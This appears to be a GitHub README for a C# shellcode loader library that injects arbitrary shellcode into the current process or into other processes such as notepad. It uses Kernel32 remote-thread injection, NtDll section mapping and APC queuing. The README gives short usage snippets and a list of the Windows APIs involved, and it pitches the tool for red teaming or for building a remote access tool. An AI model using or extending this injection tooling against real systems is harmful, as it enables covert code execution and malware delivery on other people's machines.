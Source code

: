 # ShellCodeLoader
A small shellcode loader library written in C#.
<br>
This small library allows you to inject shellcode in memory of current launched file or any other processes using different techniques.
Useful to use as red team or in a remote access tool. Works for 32 & 64 bit shellcode.

Note : 
* has been tested on same process and notepad as target

I added some test payloads which I've converted with 
* First with : Donut (https://github.com/TheWover/donut) : turns my payload into raw shellcode
* Second with HxD Editor (https://mh-nexus.de/en/downloads.php?product=HxD20) : gives me an array of raw bytes from payloads converted with Donut

How to use it ?

For same process:

```
ShellCodeLoader.ShellCodeLoader cpp = new ShellCodeLoader.ShellCodeLoader(PayloadCpp64.rawData);
cpp.LoadWithKernel32();//can be LoadWithNTDelegates , LoadWithKernel32Delegates or LoadWithNT
cpp.Dispose();
```
For other processes:

```
Process Target = Process.GetProcessesByName("notepad")[0];
ShellCodeLoader.ShellCodeLoaderEx cpp = new ShellCodeLoader.ShellCodeLoaderEx(Target, PayloadCpp64.rawData);
cpp.LoadWithKernel32();//or cpp.LoadWithNT();
cpp.Dispose();
```

MapView:

```
ShellCodeLoader.MapView cpp = new ShellCodeLoader.MapView(PayloadCpp64.rawData);
cpp.LoadWithNtMapView();
cpp.Dispose();
```

MapView with target:

```
ShellCodeLoader.MapView cpp = new ShellCodeLoader.MapView(Target, PayloadCpp64.rawData);
cpp.LoadWithNtMapView();
cpp.Dispose();
```

QueueAPC:

```
ShellCodeLoader.QueueAPC cpp = new ShellCodeLoader.QueueAPC(PayloadCpp64.rawData);
cpp.LoadWithQueueAPC();
cpp.Dispose();
```

Minimal API:

```
ShellCodeLoader.ShellCodeLoaderMinimalNativeAPI cpp = new ShellCodeLoader.ShellCodeLoaderMinimalNativeAPI(PayloadCpp64.rawData);
cpp.Asynchronous = true;//  false otherwise
cpp.LoadWithMinimalAPI();
cpp.Dispose();
```

Includes : 

* Asynchronous (a simple Task.Run to not block main thread)
* Loading with Kernel32
* Loading with NtDll
* NtDll : NtAllocateVirtualMemory
* NtDll : NtWriteVirtualMemory
* NtDll : NtProtectVirtualMemory
* NtDll : NtFreeVirtualMemory
* NtDll : NtCreateThreadEx
* NtDll : NtCreateSection
* NtDll : NtMapViewOfSection
* NtDll : NtTestAlert
* Kernel32 : GetCurrentProcess
* Kernel32 : VirtualAlloc
* Kernel32 : VirtualAllocEx
* Kernel32 : VirtualFree
* Kernel32 : VirtualProtect
* Kernel32 : VirtualProtectEx
* Kernel32 : WriteProcessMemory
* Kernel32 : CreateRemoteThread
* Kernel32 : GetModuleHandle
* Kernel32 : GetProcAddress
* Kernel32 : QueueUserAPC
* Kernel32 : SleepEx
* Enumeration : PageProtection
* Enumeration : TypeAlloc
* Enumeration: FreeType
* Enumeration : SectionAccess
* Enumeration : MappingAttributes
* Delegates : all functions have been written with delegate style except GetModuleHandle and GetProcAddress

TODO :
* <s>Inject shellcode in another process with VirtualEx and NtEx functions</s>
* Check if shellcode is 64 or 32 bit before injection

Known : 
* Debugging 32 bit test injection involves PInvokeStackImbalance
